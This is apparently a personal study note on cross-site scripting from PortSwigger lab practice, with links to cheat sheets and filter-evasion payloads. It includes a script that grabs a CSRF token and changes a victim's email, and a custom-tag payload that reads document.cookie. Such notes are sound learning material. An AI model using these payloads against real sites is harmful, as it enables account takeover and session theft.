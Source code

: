 # XSS
Tags: #javascript #xss #csrf #waf
See also:
Related to: [[web-application-firewall]]
Previous:

## Links
Portswigger cheatsheet:
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

PayloadAllTheThings
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection


## Very useful one
`<svg><animate onbegin=alert(1) attributeName=x dur=1s>`

## DOM-based
Scroll down:
https://portswigger.net/web-security/cross-site-scripting/dom-based

## XSS with CSRF after a page loads:
- Waits until page loads
- Grabs CSRF token from the form
- Changes a user's email

```
<script>
window.onload = function() {
    var target = 'https://ac951f1a1f7b66ddc0315a3500fa0083.web-security-academy.net/my-account/change-email'

    // post body data 
    new_email = encodeURI('new@email.com')
    token = document.getElementsByTagName('form')[0][0].value

    // request options
    var req_options = {
        method: 'POST',
        body: `email=${new_email}&csrf=${token}`
    }

    // send POST request
    fetch(target, req_options)
        .then(res => res)
        .then(res => console.log(res));
};
</script>
```

### Canonical tags
Link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag
Link: https://security.stackexchange.com/questions/205975/is-xss-in-canonical-link-possible

Requires special action from a user to pull off.

Example payload (requires the user to do ALT + X):
`?param=canary'accesskey='X'onclick='alert(1)'`

### Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

HTML encoding can be used when injecting into a JS context that is run on an `onclick`, even when there is encoding. 

e.g. you can encode aptrophes and get a payload like this:
`&apos;-alert(document.domain)-&apos;`

### Into templates
When injecting into backticks, you can use `${alert(1)}` to get code to execute

## Evasion
### Custom tags
- Make up your own tags to get around filters:
- HackTricks example: (https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting#custom-tags)
- On Portswiggr, this required 
	* using their "Exploit server"
	* wrapping the exploit in script tag
	* Using `location =` on the payload, and
	* Adding URL encoding the path part of the URL.
	
Exploit:
`?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'`

`tabindex` allows an element to be focusable 
`#x` at the end of the URL makes the browser focus on x

Final payload:
	```
	<script>
	location = 'https://ac971f411f96a7fac05f188201a50001web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
	</script> 
	```
	
## Backslash-escaped backslash and single-quote 
Link: Escaping JavaScript Escapes
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#escaping-javascript-escapes
e.g. injecting into a JavaScript context
`?search=</script><script>alert(`XSS`);</script>`
- Basically you interrupt their script tags with your own